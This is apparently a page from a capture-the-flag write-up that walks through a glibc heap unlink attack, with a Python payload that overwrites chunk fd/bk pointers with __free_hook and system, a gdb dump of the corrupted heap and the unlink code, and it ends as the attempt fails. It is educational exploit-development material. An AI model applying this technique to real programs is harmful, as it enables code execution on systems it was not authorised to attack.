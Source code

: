 ### Overwriting `fd` and `bk` pointers

Now that we have understood how Unsorted bin works. Let's try to exploit it.<br>
There is a heap overflow bug in this challenge we can use this to overwrite the next chunks size field. How can we abuse this?<br>
We can trick free function to think that the previous is freed by setting `prev_inuse` bit to `0`.<br>

#### Now it's time to abuse `fd` and `bk` pointers 😈

```python
free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']
prev_size = 0x90
fake_size = 0x90
payload = p64(free_hook) + p64(system) + p8(0)*0x70 + p64(prev_size) + p64(fake_size)
```

Let's send this payload and check in gdb.

```bash
0x14f11000	0x0000000000000000	0x0000000000000091	................
0x14f11010	0x000077cda23b6e20	0x000077cda2043200	 n;..w...2...w..
0x14f11020	0x0000000000000000	0x0000000000000000	................
0x14f11030	0x0000000000000000	0x0000000000000000	................
0x14f11040	0x0000000000000000	0x0000000000000000	................
0x14f11050	0x0000000000000000	0x0000000000000000	................
0x14f11060	0x0000000000000000	0x0000000000000000	................
0x14f11070	0x0000000000000000	0x0000000000000000	................
0x14f11080	0x0000000000000000	0x0000000000000000	................
0x14f11090	0x0000000000000090	0x0000000000000090	................
0x14f110a0	0x0000000000000000	0x0000000000000000	................
0x14f110b0	0x0000000000000000	0x0000000000000000	................
0x14f110c0	0x0000000000000000	0x0000000000000000	................
0x14f110d0	0x0000000000000000	0x0000000000000000	................
0x14f110e0	0x0000000000000000	0x0000000000000000	................
0x14f110f0	0x0000000000000000	0x0000000000000000	................
0x14f11100	0x0000000000000000	0x0000000000000000	................
0x14f11110	0x0000000000000000	0x0000000000000000	................
0x14f11120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk
```

We have overwritten `fd` with freehook and `bk` with system.

```c
// Let FD be P->fd and BK be P->bk
FD->bk = BK;
BK->fd = FD;
```

When this happens, it write our system address into freehook and when we call free it triggers system function.
Let's try to free second chunk so that program thinks that first chunk is already in unsorted bin and it is eligible for consolidation therefore it proceeds to unlink.<br>
But it doesn't work. It throws `corrupted double-linked list` at your face.<br>
Why this is happening?<br>
